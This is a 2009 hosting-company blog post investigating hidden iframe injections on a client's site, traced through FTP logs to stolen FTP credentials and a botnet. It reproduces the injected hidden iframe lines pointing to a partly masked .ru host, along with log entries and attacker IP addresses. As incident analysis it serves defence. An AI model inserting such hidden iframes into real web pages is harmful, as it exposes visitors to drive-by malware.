 ```yaml
---
published: true
comments: true
author: max-veprinsky
date: '2009-09-21 15:17:56'
layout: post
slug: iframe-injection-attack-investigation
status: publish
title: Iframe injection attack investigation
wordpress_id: '874'
categories:
- hosting
- Security
---
```


The whole hidden IFRAME vulnerability has been going on for some time, only a few of our client have been effected by this. The net is still buzzing with this issue and while some are saying that the injection are results of php insecurities, mysql injection or cross site scripting, while others point to key loggers and hijacked ftp credentials. In our case the exploit was not due to an application vulnerability but rather to hijacked ftp login information. Brute force password guessing attacks were not performed on this account nor any other accounts on the same server. In this particular type of attack, at the very end of index.php/index.html an IFRAME statement was appended overwriting page closing tags.

`iframe src="http://***.ru:8080/index.php" width=111 height=162 style="visibi
iframe src="http://***.ru:8080/index.php" width=136 height=162 style="visibility: hidden" /iframe
iframe src="http://***.ru:8080/index.php" width=141 height=156 style="visibility: hidden" /iframe`

Some of the index.php files had multiple IFRAME statements appended to the end. Knowing the username of affected account and affected filename I searched in /var/log/messages for any related entries and hit jackpot:

`Aug 27 01:27:59 web152 pure-ftpd: (?@94.218.69.243) [INFO] user is now logged in
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [NOTICE] /home/user//public_html/index.php downloaded  (2311 bytes, 1001.70KB/sec)
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [INFO] Logout.
Aug 27 01:28:04 web152 pure-ftpd: (?@78.92.144.185) [INFO] user is now logged in
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [NOTICE] /home/user//public_html/index.php uploaded  (2353 bytes, 10.42KB/sec)
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [INFO] Logout.`

What's interesting to note here is that even though downloading/uploading of index.php happens within a 6 second window, the source ip address for download and upload are not the same. During the next few days the same file is downloaded and uploaded but never from the same set of ip addresses. During the few days that I was allowing this to happen as I was monitoring said activity and collecting the IP addresses to see if a pattern emerges:

`83.82.57.39 GeoIP Country Edition: NL, Netherlands
95.52.163.74 GeoIP Country Edition: RU, Russian Federation
189.122.164.40 GeoIP Country Edition: BR, Brazil
69.159.47.21 GeoIP Country Edition: CA, Canada
85.221.184.164 GeoIP Country Edition: PL, Poland
98.243.198.220 GeoIP Country Edition: US, United States
78.30.154.22 GeoIP Country Edition: RS, Serbia
77.81.33.229 GeoIP Country Edition: RO, Romania
83.6.73.91 GeoIP Country Edition: PL, Poland
190.198.3.27 GeoIP Country Edition: VE, Venezuela
75.208.130.92 GeoIP Country Edition: US, United States
68.84.202.157 GeoIP Country Edition: US, United States
75.80.81.104 GeoIP Country Edition: US, United States`

Seeing that no clear pattern is evident here and considering that the IP address was different for each connection it is my rationale that the computer's at these IP addresses were a part of a botnet. My assumption is that a developer had saved the account password and was infected by malicious software which was able to gather the ftp credentials.

Cleanup included restoring files and changing all account/ftp/email and database passwords.
